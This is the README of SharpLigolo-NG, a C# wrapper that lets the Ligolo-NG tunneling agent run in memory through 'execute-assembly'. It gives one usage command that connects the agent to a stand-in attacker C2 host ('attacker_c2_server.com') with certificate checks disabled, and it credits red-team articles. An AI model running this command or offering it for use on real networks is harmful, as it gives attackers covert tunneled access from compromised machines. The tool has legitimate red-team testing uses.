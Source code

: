 # SharpLigolo-NG

A C# wrapper for the [Ligolo-NG](https://github.com/nicocha30/ligolo-ng) agent

Can be built and executed via `execute-assembly`

```shell
execute-assembly /tmp/SharpLigoloNG.exe -connect attacker_c2_server.com:11601 -ignore-cert
```


# Credits

* [shantanu561993](https://github.com/shantanu561993) - https://medium.com/@shantanukhande/red-team-how-to-embed-golang-tools-in-c-e269bf33876a
* [S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t) - https://github.com/S3cur3Th1sSh1t/SharpLigolo
